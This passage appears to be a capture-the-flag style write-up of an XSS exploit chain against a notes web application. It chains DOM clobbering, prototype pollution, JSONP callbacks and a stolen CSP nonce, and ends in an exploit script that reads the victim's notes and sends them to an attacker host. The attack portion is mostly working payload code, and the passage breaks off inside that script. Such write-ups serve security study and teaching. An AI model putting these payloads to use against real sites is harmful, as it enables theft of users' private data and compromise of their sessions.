 The content of the notes is filtered using DOMPurify, but the `id` and `name` attributes are available for use. To exploit the vulnerability and overwrite the callback, an attacker needs to create a `document.all.theme.cb` field that returns a controlled value when cast to a string.

Example:
```
<a href="http://test/" id="theme" name="cb"/>
<b id="theme"/>
```

`document.all.theme` will return an HTMLCollection since there are two elements in the DOM with id = theme.

![HTMLCollection](https://i.imgur.com/l4ipTEq.png)!

`document.all.theme.cb.toString()` will return `http://test/`

The result of this combination of DOM Clobbering and Prototype Pollution is the next request `/theme?cb=http://test/`
```
httptest({"version":"b1.13.7","timestamp":1598432753476})
```

At this stage, we cannot use
```js
location=something.that.return.javascript.scheme({"version":"b1.13.7","timestamp":1598432753476})
```
since the application uses CSP
```
Content-Security-Policy: default-src 'none';script-src 'self' 'nonce-7a731d73bf5857d7';...
```

But we can overwrite the `innerHTML` of an arbitrary element using
```html
<a href="https://test/?x=document.body.firstElementChild.innerHTML=window.name.toString" id="theme" name="cb"/>
<b id="theme"/>
```
```js
httpstestx=document.body.firstElementChild.innerHTML=window.name.toString({"version":"b1.13.7","timestamp":1598439920882})
```

### Self XSS

Since `<script src>` will not work directly from innerHTML, it is possible to wrap it in iframe srcdoc.
```html
<iframe srcdoc='<script src=/theme?cb=alert></script>'></iframe>
```

Using callback chaining is possible:
 * Create script element in iframe
 * Steal a valid nonce from the parent page and set it in an iframe script
 * Set script content via innerHTML
 
Exploit:
```html
<script>
	ifrs  = [
		"<iframe name=xss srcdoc='<script charset=fetch(&#x22;/note/&#x22;).then(x=&amp;gt;x.text()).then(x=&amp;gt;parent.location=&#x22;//attacker.tld?c=&#x22;+btoa(x))><\/script>'></iframe> ",
		"<iframe srcdoc=\'<script src=/theme?cb=parent.xss.document.head.lastElementChild.nonce=parent.document.body.lastElementChild.nonce.valueOf><\/script>\'></iframe>",
		"<iframe srcdoc=\'<script src=/theme?cb=parent.xss.document.head.lastElementChild.innerHTML=parent.xss.document.head.lastElementChild.charset.toString><\/script>\'></iframe>",
	];
  window.name='{"debugUser":true,"showAll":true,"x":"'+ifrs.join()+'","keepDebug":true,"verbose":true,"__proto__":["all"]}';

```